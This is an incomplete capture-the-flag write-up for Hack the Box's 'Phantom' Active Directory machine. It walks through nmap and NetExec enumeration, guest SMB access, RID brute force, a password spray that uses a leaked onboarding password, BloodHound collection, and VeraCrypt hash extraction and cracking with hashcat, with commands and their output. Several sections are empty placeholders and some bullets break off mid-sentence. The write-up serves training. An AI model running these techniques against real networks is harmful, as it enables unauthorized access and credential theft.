



# Phantom CTF Writeup

## Non-Technical Summary

### Overview

The "Phantom" CTF simulates a Windows Active Directory network, typical of corporate environments. This writeup details the steps taken to gain unauthorized access and compromise the domain controller with a hybrid aspect of typical pentesting professional-esque reporting. 

As such, not all typical extensive enumeration steps that were performed are documented.

### Key Findings

During the CTF, several vulnerabilities were identified, including:
*   Weak SMB permissions allowing guest access to sensitive shares.
*   The presence 
*   Specific Active Directory misconfigurations that facilitated privilege escalation like RBCD.

### Impact

These identified issues could allow an attacker to:
*   Encrypt and/or steal all on-premises data.
*   Disrupt critical systems, causing indefinite downtime.
*   Gain complete domain control, compromising all systems and establishing powerful persistence.

### Recommendations

To mitigate the discovered vulnerabilities, it is recommended to:
*   Review and restrict null and/or guest access to the domain.
*   Do not publicly share onboarding credentials
*   Regularly 

---

## Technical Writeup

### Introduction

"Phantom" is a medium-difficulty Windows Active Directory machine on **Hack the Box**. As usual, the objective was to achieve both **user** and **Root/Administrator** flags. This writeup will detail the methodology and tools used to compromise the target.

### Initial Enumeration and Reconnaissance

*   **Tools**: `nmap`, `NetExec`
  
My initial reconnaissance phase focused on gathering as much information as possible about the target system, `10.129.234.63`.

#### Nmap Scan
*   **Command**: `nmap -sC -sV 10.129.234.63 -oA Outputs/nmap/initial`

An `nmap` scan revealed a standard Windows Domain Controller setup, with several key services open:
*   **Port 53 (DNS)**: `Simple DNS Plus`
*   **Port 88 (Kerberos)**: `Microsoft Windows Kerberos`
*   **Port 135 (MSRPC)**: `Microsoft Windows RPC`
*   **Port 139 (NetBIOS-SSN)**: `Microsoft Windows netbios-ssn`
*   **Port 389 (LDAP)**: `Microsoft Windows Active Directory LDAP (Domain: phantom.vl)`
*   **Port 445 (SMB)**: `Microsoft Windows` (SMB signing enabled and required)
*   **Port 3389 (RDP)**: `Microsoft Terminal Services`

The `nmap` output immediately provided crucial domain information: `phantom.vl` and `DC.phantom.vl`.

For a full breakdown of the Nmap scan, see the [HTML output](https://html-preview.github.io/?url=https://github.com/rtj-dev/CTF-Writeups/blob/main/Active-Directory/Phantom/Outputs/nmap/initial_syn_scan.html).


#### SMB Enumeration with NetExec

With SMB port 445 open, I proceeded to enumerate shares and users using `NetExec`.

**1. Null/Guest Access Check:**

Initially, I attempted to authenticate with null and guest credentials.
*   **Command**: `nxc smb 10.129.234.63 -u 'a' -p '' --log Outputs/nxc/guest_scan.txt`

```
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\a: (Guest)
```
The output confirmed that both guest and null bindings were working, indicating potential for further enumeration with guest privileges.

**2. Listing Shares:**

Leveraging the guest access, we can list available SMB shares.
*   **Command**: `nxc smb 10.129.234.63 -u 'a' -p '' --shares --log Outputs/nxc/guest_shares.txt`

```
SMB         10.129.234.63   445    DC               [*] Enumerated shares
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON                        Logon server share
SMB         10.129.234.63   445    DC               Public          READ
SMB         10.129.234.63   445    DC               SYSVOL                          Logon server share
```
Note the `Public` share, with `READ` permissions, something to note for further enumeration

**3. Listing Users via RID Bruteforce:**

Although direct user listing wasn't successful with guest access, a RID bruteforce attack is a noisy but often fruitful option.
*   **Command**: `nxc smb 10.129.234.63 -u 'a' -p '' --rid-brute --log Outputs/nxc/rid_scan.txt`
  
```
<SNIP>
SMB         10.129.234.63   445    DC               1103: PHANTOM\svc_sspr (SidTypeUser)
SMB         10.129.234.63   445    DC               1104: PHANTOM\TechSupports (SidTypeGroup)
SMB         10.129.234.63   445    DC               1105: PHANTOM\Server Admins (SidTypeGroup)
SMB         10.129.234.63   445    DC               1106: PHANTOM\ICT Security (SidTypeGroup)
SMB         10.129.234.63   445    DC               1107: PHANTOM\DevOps (SidTypeGroup)
SMB         10.129.234.63   445    DC               1108: PHANTOM\Accountants (SidTypeGroup)
SMB         10.129.234.63   445    DC               1109: PHANTOM\FinManagers (SidTypeGroup)
SMB         10.129.234.63   445    DC               1110: PHANTOM\EmployeeRelations (SidTypeGroup)
SMB         10.129.234.63   445    DC               1111: PHANTOM\HRManagers (SidTypeGroup)
SMB         10.129.234.63   445    DC               1112: PHANTOM\rnichols (SidTypeUser)
SMB         10.129.234.63   445    DC               1113: PHANTOM\pharrison (SidTypeUser)
SMB         10.129.234.63   445    DC               1114: PHANTOM\wsilva (SidTypeUser)
SMB         10.129.234.63   445    DC               1115: PHANTOM\elynch (SidTypeUser)
SMB         10.129.234.63   445    DC               1116: PHANTOM\nhamilton (SidTypeUser)
SMB         10.129.234.63   445    DC               1117: PHANTOM\lstanley (SidTypeUser)
SMB         10.129.234.63   445    DC               1118: PHANTOM\bbarnes (SidTypeUser)
SMB         10.129.234.63   445    DC               1119: PHANTOM\cjones (SidTypeUser)
SMB         10.129.234.63   445    DC               1120: PHANTOM\agarcia (SidTypeUser)
SMB         10.129.234.63   445    DC               1121: PHANTOM\ppayne (SidTypeUser)
SMB         10.129.234.63   445    DC               1122: PHANTOM\ibryant (SidTypeUser)
SMB         10.129.234.63   445    DC               1123: PHANTOM\ssteward (SidTypeUser)
SMB         10.129.234.63   445    DC               1124: PHANTOM\wstewart (SidTypeUser)
SMB         10.129.234.63   445    DC               1125: PHANTOM\vhoward (SidTypeUser)
SMB         10.129.234.63   445    DC               1126: PHANTOM\crose (SidTypeUser)
SMB         10.129.234.63   445    DC               1127: PHANTOM\twright (SidTypeUser)
SMB         10.129.234.63   445    DC               1128: PHANTOM\fhanson (SidTypeUser)
SMB         10.129.234.63   445    DC               1129: PHANTOM\cferguson (SidTypeUser)
SMB         10.129.234.63   445    DC               1130: PHANTOM\alucas (SidTypeUser)
<SNIP>
```
The scan has given a good picture of how the domain is strucutred, groups for IT Staff, HR, Finance (etc.) and a good list of users to leverage for further enumeration and testing.
An interesting finding is `svc_sspr` (RID 1103), which often indicates a service account used for Self-Service Password Reset. For the complete RID scan output, refer to [rid_scan.txt](Outputs/nxc/rid_scan.txt).

**4. Exploring Shares:**

Spidering available shares is a convenient way to list and/or download all acessible files for which we have access.
*  **Command:** `nxc smb 10.129.234.63 -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./spider --log spider_shares.txt`
```
SPIDER_PLUS 10.129.234.63   445    DC               [+] Saved share-file metadata to "./spider/10.129.234.63.json".
SPIDER_PLUS 10.129.234.63   445    DC               [*] SMB Shares:           7 (ADMIN$, C$, Departments Share, IPC$, NETLOGON, Public, SYSVOL)
SPIDER_PLUS 10.129.234.63   445    DC               [*] SMB Readable Shares:  2 (IPC$, Public)
SPIDER_PLUS 10.129.234.63   445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.234.63   445    DC               [*] Total folders found:  0
SPIDER_PLUS 10.129.234.63   445    DC               [*] Total files found:    1
SPIDER_PLUS 10.129.234.63   445    DC               [*] File size average:    14.22 KB
SPIDER_PLUS 10.129.234.63   445    DC               [*] File size min:        14.22 KB
SPIDER_PLUS 10.129.234.63   445    DC               [*] File size max:        14.22 KB
SPIDER_PLUS 10.129.234.63   445    DC               [*] File unique exts:     1 (eml)
SPIDER_PLUS 10.129.234.63   445    DC               [*] Downloads successful: 1
SPIDER_PLUS 10.129.234.63   445    DC               [+] All files processed successfully.
```
Exploring the metadata report has given a single file to investiage, [tech_support_email.eml](Outputs/nxc/tech_support_email.eml).

```
{
    "Public": {
        "tech_support_email.eml": {
            "atime_epoch": "2024-07-06 17:08:50",
            "ctime_epoch": "2024-07-06 17:08:50",
            "mtime_epoch": "2024-07-06 17:09:28",
            "size": "14.22 KB"
        }
    }
}
```
For visibility, we'll use an .eml viewer and explore what we have.

An email from `alucas@phantom.vl`, who we can note was also listed in our user enumeration earlier, to `techsupport@phantom.vl`

Viewing the PDF attached gives us a critical finding `Password: Ph4nt0m@5t4rt!` for a potential password spray against our user list.
 

### Active Exploitation
  **Password Spray** 
  
  Using the onboarding password, we'll spray across our users found in the RID bruteforce, find the full output here: [spray.txt](Outputs/nxc/spray.txt)

*   **Command**: `nxc smb 10.129.234.63 -u ridusers -p 'Ph4nt0m@5t4rt!' --continue-on-success --log ./Outputs/nxc/spray.txt`
```
<SNIP>
SMB         10.129.234.63   445    DC               [-] phantom.vl\ppayne:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE
SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt!
SMB         10.129.234.63   445    DC               [-] phantom.vl\ssteward:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE
</SNIP>
```
A positive hit for `ibryant`, we now have active credentials to iterate over our enumeration process again.

### Further Enumeration

*   **Tools**: `nmap`, `NetExec`, `RustHound`, `BloodHound`

**Exploring Shares**
  
*   **Command**: `nxc smb 10.129.234.63 -u ibryant -p 'Ph4nt0m@5t4rt!' --users --log ibryant_shares.txt'`
```
SMB         10.129.234.63   445    DC               [*] Enumerated shares
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share READ
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON        READ            Logon server share
SMB         10.129.234.63   445    DC               Public          READ
SMB         10.129.234.63   445    DC               SYSVOL          READ            Logon server share
```
Taking another look at shares, we can see `ibryant` has `READ` access to the `Departments Share` which we will immediately explore.

```
Finance/Expense_Reports.pdf
Finance/Invoice-Template.pdf
Finance/TaxForm.pdf
HR/Employee-Emergency-Contact-Form.pdf
HR/EmployeeHandbook.pdf
HR/Health_Safety_Information.pdf
HR/NDA_Template.pdf
IT/mRemoteNG-Installer-1.76.20.24615.msi
IT/TeamViewerQS_x64.exe
IT/TeamViewer_Setup_x64.exe
IT/veracrypt-1.26.7-Ubuntu-22.04-amd64.deb
IT/Wireshark-4.2.5-x64.exe
IT/Backup/IT_BACKUP_201123.hc
```
Spidering and downloading the share contents displays a range of departmental resources. While the rest were unremarkable, `IT` provides some interesting insights.

- **Veracrypt** `veracrypt-1.26.7-Ubuntu-22.04-amd64.deb` presence implies some use of encrypted storage.

- **IT/Backup** `IT_BACKUP_201123.hc` in the context of veracrypt, tells us this is an encrypted container/drive. We'll take note of this and explore later.

**Bloodhound**

Using my collector of choice `RustHound`, we'll look to get a overview of the domain and any potential weak DACLS or potential high value targets with `BloodHound`.

*   **Command**: `rusthound -u ibryant -p 'Ph4nt0m@5t4rt!' --domain phantom.vl --ldapip 10.129.234.63 --zip --output ./BloohoundIngest`
```
<SNIP>
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] 30 users parsed!
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] 69 groups parsed!
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] 1 computers parsed!
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] 5 ous parsed!
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] 1 domains parsed!
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] 2 gpos parsed!
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] 21 containers parsed!
[2025-10-13T22:07:35Z INFO  rusthound::json::maker] ./BloohoundIngest/20251013230735_phantom-vl_rusthound.zip created!
</SNIP>
```
**Immediate Findings**

Using previous informaiton obtained and Bloodhound's ability to graphically present data, provides a strong overview of potential targets and/or weaknesses.

**Owned User**

A quick look into `ibryant` reveals nothing remarkable, but provides useful info on our group membership, immediate surroundings and our current limitaitons.

**[Ibryant Shortest Path](Outputs/Screenshots/ibryant_shortest.png)**

**[Tech Support Group](Outputs/Screenshots/techsupport_shortest.png)**

**Future HVTs**

Looking outside our current control, highlights some very interesting findings and the likely potential pathway for full domain compromise.

**SVC_SSPR**

This service account we discovered earlier, not only has `REMOTE MANAGEMNT USERS` membership, but also has a direct route into `ICT Security` through `ForceChangePassword` over `rnichols`.

[SVC_SPR_Control](Outputs/Screenshots/svc_sspr_control.png)

**ICT Security**

From here, we'd have a potential RBCD DACL directly over the DC with `AddAllowedToAct`, making `svc_sspr` priority one.



### Privilege Escalation


**Veracrypt**

Returning to our veracrypt container, using external resources, we can learn that the first 512 bytes contain the encrypted volume header we can then feed to hashcat.

*   **Command**: `dd if=./IT_BACKUP_201123.hc of=./hash bs=512 count=1`

**Cracking**

An important factor to note when cracking is speed - running through a popular list like rockyou.txt over VeraCrypt SHA512 + XTS 1024 bit will take a long time.

Here we'll take note of the following info provided by the HTB overlords.


We'll use crunch (https://github.com/crunchsec/crunch), to generate a simple wordlist based on these exact parameters.
*   **Command**:`crunch 12 12 -t 'Phantom202%^' -o wordlist.txt`

**Hashcat***
*   **Command**: `hashcat -a 0 -m 13722 hash wordlist.txt`


### Privilege Escalation

*   **Initial Access**: (Details to be filled in after exploitation)
*   **Lateral Movement**: (Details to be filled in)
*   **Domain Admin**: (Details to be filled in)

### Post-Exploitation


### Tools Used

*   `nmap`: Network scanning and service enumeration.
*   `NetExec`: SMB enumeration, user listing, and password spraying.
*   (Add more tools as they are used in the CTF)

### Mitigations


### Lessons Learned


